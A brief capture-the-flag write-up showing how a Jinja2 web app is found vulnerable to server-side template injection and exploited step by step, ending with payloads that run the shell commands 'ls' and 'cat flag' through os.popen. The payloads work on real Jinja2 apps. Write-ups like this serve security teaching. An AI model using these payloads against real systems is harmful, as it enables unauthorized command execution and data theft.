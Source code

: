 > Upon arriving at the landing page, we see that there's a web app which outputs user input to the resulting webpage, which is a classic SSTI scenario. We try this payload to figure out if the app is vulnerable to SSTI

```
{{7 * 7}}
```
> This shows us that the app is vulnerable to SSTI. Next, we need to confirm which templating engine is being used, with the following payload
```
{{7 * '7'}}
```
> This confirms that the templating engine being used is Jinja2. We can use the following payload to run a system command using SSTI
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
> We see that there's a flag file in the current directory, so we can use this payload to output the flag
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```
Finis
